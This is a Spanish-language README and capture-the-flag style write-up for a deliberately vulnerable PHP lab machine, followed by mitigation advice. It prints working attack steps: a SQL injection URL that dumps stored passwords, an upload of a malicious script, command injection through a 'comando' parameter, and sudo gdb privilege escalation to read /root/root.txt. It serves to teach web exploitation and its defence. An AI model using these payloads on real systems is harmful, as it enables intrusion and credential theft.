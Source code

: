 Este proyecto ha acabado con mi salud mental
descargar zip y 
poner los archivos en home de user1
abrir una terminal
HACER:
chmod +x setup_OVA.sh
./setup_OVA.sh

chmod +x automatizado.sh
./automatizado.sh


Aquí tienes el write-up actualizado con detalles sobre la configuración inicial del entorno y el proceso de explotación:

---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`gdb.sh`**:
   Script malicioso utilizado en la explotación. Este archivo aprovecha `gdb` para leer archivos protegidos.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---

## **3. Mitigación**

### **Vulnerabilidades Identificadas**
1. **Inyección SQL**:
   - El parámetro `rover_id` no sanitiza entradas.
2. **Subida de Archivos Maliciosos**:
   - No hay validación de extensiones ni restricciones de tipo MIME.
3. **Escalación de Privilegios**:
   - El binario `gdb` tiene permisos inseguros en el archivo `sudoers`.

---

### **Medidas de Seguridad**
1. **Sanitización de Entradas**:
   - Usar consultas SQL preparadas.
   - Validar entradas para evitar comandos maliciosos.

2. **Control de Subidas de Archivos**:
   - Limitar las extensiones permitidas (`.jpg`, `.png`).
   - Subir archivos a directorios con permisos `noexec`.

3. **Configuración Segura de Permisos**:
   - Revisar los binarios con permisos elevados (`gdb`) y eliminar configuraciones inseguras en `sudoers`.

4. **Deshabilitar Funciones Inseguras en PHP**:
   - Modificar `php.ini` para restringir funciones como `exec`, `shell_exec`:
     ```
     disable_functions = exec, system, passthru
     ```

5. **Principio de Privilegios Mínimos**:
   - Ejecutar el servidor web con permisos limitados y aislarlo en un entorno de contenedor o jaula (`chroot`).

---

## **Conclusión**
Este escenario ilustra cómo una serie de vulnerabilidades, combinadas, pueden comprometer un sistema web. Desde inyección SQL hasta escalación de privilegios, es fundamental identificar y mitigar estos riesgos para proteger aplicaciones web contra ataques avanzados.
